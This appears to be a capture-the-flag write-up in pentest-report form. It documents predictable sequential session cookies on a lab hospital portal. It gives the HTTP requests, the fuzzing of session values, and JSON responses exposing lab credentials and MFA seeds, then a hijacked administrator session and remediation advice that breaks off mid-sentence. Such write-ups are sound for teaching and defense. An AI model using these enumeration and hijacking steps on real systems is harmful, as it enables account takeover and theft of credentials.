




# S-01: Predictable Session Tokens → Full Administrative Account Takeover

- **CWE:** CWE-330 (Use of Insufficiently Random Values) — root cause, surfacing as CWE-287 (Improper Authentication)
- **OWASP:** A07:2021 Identification and Authentication Failures / A01:2021 Broken Access Control
- **Mechanism:** `session` cookie
- **Severity:** Critical
- **CVSS 3.1:** `AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` — 9.9

## Summary

The application's `session` cookie is a small, sequential integer (`1`, `2`, `42`, ...) rather than a cryptographically random token. Fuzzing this value directly — without going through login, password reset, or any credential-based flow — returns a fully authenticated session for whichever user that number belongs to. This completely bypasses every other access control in the app, including the clinic-level boundary checks found elsewhere in this assessment (see H-01), because it operates at the authentication layer rather than the application logic layer: if the server already believes you *are* that person, no downstream check matters.

This was escalated from "found a leaked credential" to a demonstrated, confirmed takeover: using a hijacked session, I logged in as **Dr. Evelyn Harlan, Chief of Medicine** — the most senior role observed in this application — and reached a working administrative panel.

## Discovery

While testing the profile endpoint for IDOR (see H-01), I noticed my own session cookie value was a small number. Instead of only testing object IDs, I tested the session identifier itself.

## Steps to Reproduce

### Step 1 — Confirm the session cookie is guessable

```http
GET /portal/profile/2 HTTP/1.1
Host: 94088de03lh3.ctfhub.io
Cookie: session=42
```
This returned my own profile, confirming `session=42` was valid for my own account at the time of testing.

### Step 2 — Fuzz the session value directly

Using Caido's Automate feature, swept the `session` cookie across a small numeric range while keeping the rest of the request unchanged (`GET /portal/profile`). **100 requests, all 200 OK.** Two confirmed examples:

**`session=1`** — returned a different real user entirely:
```json
{
  "id": 1, "username": "dr.harlan", "password": "cmo-do-not-guess-9f2a",
  "full_name": "Dr. Evelyn Harlan", "role": "chief_of_medicine", "clinic_id": 1,
  "email": "eharlan@hospitalhub.local",
  "password_hash": "$2a$10$YHk9KPGfNc.Rg7eA.LqkP.uV8/Xt0vJh3pXn1xJq2dB7eCmDw3yWG",
  "auth_token": "cmo-auth-72150742c66b",
  "mfa_secret": "JBSWY3DPEHPK3PXP-CMO-SEED",
  "private_notes": "Office calendar locked."
}
```

**`session=5`** — a second, independent instance, a different clinic entirely:
```json
{
  "id": 5, "username": "dr.kessler", "password": "pw-kessler",
  "full_name": "Dr. Helen Kessler", "role": "physician", "clinic_id": 4,
  "email": "hkessler@hospitalhub.local",
  "password_hash": "$2a$10$BeXyZmqp.aabcdef9PEHPKAAA.uV8/Xt0vJh3pXn1xJq2dB7eCmDXX",
  "auth_token": "authtok-d20a8c5e76",
  "mfa_secret": "totp-seed-kessler",
  "private_notes": "Pager PIN reminder for self[...]"
}
```

Both results confirm the vulnerability is repeatable across arbitrary session values, crossing clinic/tenant boundaries, each handing over the full credential set for a different real account.

### Step 3 — Confirmed account takeover (demonstrated, not theoretical)

Set the browser's session cookie directly to `session=1` and navigated to the portal:

```
Cookie: session=1
```

Result: landed on the authenticated dashboard as **Dr. Evelyn Harlan, Chief of Medicine**, Riverside General Hospital — no login form, no password, no MFA challenge. The dashboard showed real operational data: 47 appointments that day, 12 pending labs, 14 staff on duty, and a recent-activity feed referencing real patient records.

### Step 4 — Confirmed privileged access

While authenticated as this hijacked session, requested the administrative panel:

```http
GET /portal/admin HTTP/1.1
Cookie: session=1
```

Response (200 OK) returned a working admin interface, including a page describing a credential rotation process ("used to sign internal directives sent from the CMO's office") and a flag confirming full compromise.

## Impact

This is the most severe finding in this portfolio. Starting from zero credentials — just a sequential number — an attacker can:
- Obtain a fully authenticated session as any user in the system, including the most senior clinical role
- Bypass MFA entirely, since the hijacked session requires no MFA challenge at all
- Reach genuine administrative functionality tied to the organization's highest authority
- Do all of this without cracking a password, phishing anyone, or exploiting any single application-logic bug — purely by enumerating a small integer

Because this operates at the session/authentication layer, it also **defeats every other access control fix in this app**: even if H-01, H-02, and H-03 were patched perfectly, this bug alone is sufficient for full compromise.

## Root Cause

Session identifiers are generated as small, sequential, predictable integers instead of cryptographically random tokens with sufficient entropy (128+ bits). The authentication layer trusts the raw cookie value as sufficient proof of identity, with no secondary binding (e.g. to IP, device fingerprint, or a server-side session-integrity check) and no rate limiting on failed/successful session lookups.

## Remediation

1. **Replace session identifiers immediately** with cryptographically random tokens of sufficient length (minimum 128 bits of entropy), generated server-side using a secure random source.
2. **Never serialize `password`, `password_hash`, `auth_token`, or


## Evidence

### 1. Baseline Session


### 2. Predictable Session Enumeration


### 3. Confirmed Chief of Medicine Account Takeover


### 4. Confirmed Administrative Panel Access

